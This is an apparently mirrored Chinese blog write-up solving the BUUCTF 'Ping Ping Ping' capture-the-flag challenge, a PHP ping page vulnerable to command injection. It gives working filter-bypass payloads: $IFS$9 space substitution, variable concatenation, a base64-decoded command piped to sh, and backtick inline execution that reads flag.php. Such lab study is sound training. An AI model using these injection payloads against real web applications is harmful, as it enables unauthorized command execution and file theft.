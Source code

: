 <!--yml
category: 未分类
date: 2022-04-26 14:36:54
-->

# BUUCTF__[GXYCTF2019]Ping Ping Ping_题解_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/106890338](https://blog.csdn.net/TM_1024/article/details/106890338)

## 前言

*   我感觉我是一个假的理工科生，假的计算机相关专业学生，完全没有该有的样子
*   这题有点东西，不算太水。只是对我来说。

## 读题

*   题目是Ping，打开也没有内容，就一个get传参的ip变量
    ![在这里插入图片描述](img/77c8cee233eebaa596334c78c82ae150.png)
*   不过看到ip和ping就容易联想到，终端`ping`命令。
*   先尝试传入一个`ip=127.0.0.1`，于是乎出现了如下，在终端下执行的效果就是这样，命令执行石锤了。
    ![在这里插入图片描述](img/9d9fa3d12d9e5b81e7fed111c1355f0b.png)
*   所以，利用拼接符在ping命令后添加我们需要的命令即可。所以可以用拼接符

> & 表示任务在后台执行，如要在后台运行redis-server,则有 redis-server &

> && 表示前一条命令执行成功时，才执行后一条命令 ，如 echo '1‘ && echo ‘2’

> | 表示管道，上一条命令的输出，作为下一条命令参数，如 echo ‘yes’ | wc -l

> || 表示上一条命令执行失败后，才执行下一条命令，如 cat nofile || echo “fail”

> ; 分号表示命令依次执行。

*   首先尝试了`&&` 但居然没有回显，很奇怪，理论上`ping 1270.0.0.1&&ls`（为啥是ls命令？拿flag总得知道它在哪吧）应该是可以的，但不知道为什么，还有就是输入无法ping通的ip也是一样的回显，可能是因为这是假ping吧，前面没成功，所以后面不执行
*   然后尝试用`|` 回显得知 index.php 和 flag.php
    ![在这里插入图片描述](img/383e3a1ba71b6169ab19af30fc440fca.png)
*   尝试用cat命令读取flag.php,提示有空格，空格被过滤了
    ![在这里插入图片描述](img/8622f81cddb4539c128152c0bfd7e81e.png)
*   于是我去百度了命令执行空格绕过，参考[这篇文章](https://blog.csdn.net/a3320315/article/details/99773192)
*   但尝试发现，不仅空格被禁了,像 `{` 、 `<` 、`%` 也被禁了但是$IFS$9能用，不过提示flag也被过滤了。
*   加一点为什么用$IFS不行，因为用 $IFS的话，会认为解析没结束，会把后面的也当做参数解析，而 $IFS$9的话，结束了 $IFS 后加上了一个不存在或者说空字符串的变量。所以解析为空，但结束了 $IFS正常执行后面的内容
    ![在这里插入图片描述](img/2abd7c85c9e6a6d53c36dcaa329a193d.png)
    ![在这里插入图片描述](img/63d5eaef7be9c9d60bf0f8936ed7bd7e.png)
*   所以先尝试读index.php ,得到源码，发现了过滤规则。

```
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "

";
  print_r($a);
}

?> 
```

*   猜测flag在flag.php里，所以我们需要绕过正则读取flag.php。
*   网上发现三种绕过方法

## 解题

### 方法一、变量拼接字符串

*   使用变量拼接字符串，比如这样
    ![在这里插入图片描述](img/f4fec3121d2165e4df315f9f189daef0.png)
*   所以我们可以拼接一个flag

```
b=ag.php;a=fl;cat$IFS$9$a$b 
```

### 方法二、sh命令来执行

*   有一说一，我在 bash、sh 和 shell 之间很迷。我的理解 sh 和 bash 是执行shell命令的不同方法。
*   使用 base64 编码的方式来绕过 flag 过滤。

> 1.  加密命令
>     echo “cat flag.php” | base64

> 2.  解密命令并执行
>     echo Y2F0IGZsYWcucGhwCg== | base64 -d | sh

### 方法三、内联执行

*   反引号在linux中作为内联执行，执行输出结果。也就是说

    ```
     cat `ls`   //执行ls输出 index.php 和 flag.php 。然后再执行 cat index.php;cat flag.php 
    ```

*   所以可以构造payload

    ```
    ?ip=127.0.0.1;cat$IFS$9`ls` 
    ```

*   得到flag，可以看见两个php文件都有显示
    ![在这里插入图片描述](img/2b222d7e768f6dd9ed517a1fdfff91f7.png)

*   这个确实厉害

## 最后

*   还题的知识点关于命令执行的拼接和绕过，尤其是后面两种方法，对Linux命令行不熟悉的话很难想到。
*   附上[题目链接](https://buuoj.cn/challenges#%5BGXYCTF2019%5DPing%20Ping%20Ping)
*   持续更新BUUCTF题解，写的不是很好，欢迎指正。
*   最后欢迎来访[个人博客](http://ctf-web.zm996.cloud/)